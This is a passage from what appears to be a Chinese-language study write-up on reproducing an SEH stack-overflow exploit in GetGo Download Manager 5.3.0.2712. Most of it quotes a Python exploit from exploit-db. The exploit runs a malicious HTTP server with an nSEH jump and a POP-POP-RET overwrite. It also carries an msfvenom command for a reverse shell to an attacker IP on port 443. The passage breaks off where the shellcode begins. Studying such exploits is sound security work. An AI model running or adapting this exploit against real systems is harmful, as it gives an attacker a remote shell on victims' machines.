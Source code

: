 # 一次失败的栈溢出(SEH)之GetGo Download Manager

寻找栈溢出SEH样本的过程中，在exp-db上看到了这个洞。详情请参考<待补充>。

尽管没有CVE（提交者在XP SP3测试可还行），但是提交的exp很细致，是我喜欢的画风，同时也一并提供了漏洞软件。

GetGo Download Manager是一个下载工具，类似迅雷这种（当然不清楚服务端处理是否一个套路）。根据exp-db的信息来看，download具体URL资源时存在着一个栈溢出漏洞，提交者使用了覆盖SEH的方法进行了漏洞的利用。

## 侦查

先来看看提交者的exp：

```python
#!/usr/bin/python
 
#
# Exploit Author: bzyo
# Twitter: @bzyo_
# Exploit Title: GetGo Download Manager 5.3.0.2712 - Remote Buffer Overflow (SEH)
# Date: 02-24-2018
# Vulnerable Software: GetGo Download Manager 5.3.0.2712
# Vendor Homepage: http://www.getgosoft.com/
# Version: 5.3.0.2712
# Software Link: https://www.exploit-db.com/apps/b26d82eadef93531f8beafac6105ef13-GetGoDMSetup.exe
# Tested On: Windows XP SP3
#
#
# PoC: 
# 1. setup listener 443 on attacking machine
# 2. run script on attacking machine
# 3. open app on victim machine
# 4. go to download
# 5. select new, add http://attackerip to URL, index.html to File Name, and select OK
# 6. check listener, remote shell
#
 
import sys
import socket
import os
import time
 
host = "192.168.0.149"
port = 80
  
s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
s.bind((host, port))
s.listen(1)
print "\n[+] listening on %d ..." % port
 
bz, addr = s.accept()
print "[+] connection accepted from %s" % addr[0]
 
junk = "A"*20
 
#jump 6 
nseh = "\xeb\x06\x90\x90"
 
#0x72d11f39 : pop edi # pop esi # ret 0x04 |  {PAGE_EXECUTE_READ} [msacm32.drv]
seh = "\x39\x1f\xd1\x72"
 
#msfvenom -p windows/shell_reverse_tcp LHOST=192.168.0.149 LPORT=443 -b "\x00" -f c
#Payload size: 351 bytes
reverse = (
```